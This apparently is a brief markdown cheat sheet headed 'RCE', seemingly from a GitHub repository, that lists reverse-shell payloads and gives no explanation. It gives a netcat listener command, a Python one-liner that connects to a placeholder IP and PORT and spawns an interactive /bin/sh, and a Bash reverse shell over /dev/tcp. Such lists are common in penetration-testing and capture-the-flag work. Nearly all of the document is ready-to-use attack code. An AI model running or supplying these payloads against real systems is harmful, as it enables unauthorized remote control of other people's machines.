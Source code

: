 # RCE

Listen on port:
```bash
nc -lvnp <PORT>
```

python:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Bash:
```bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```
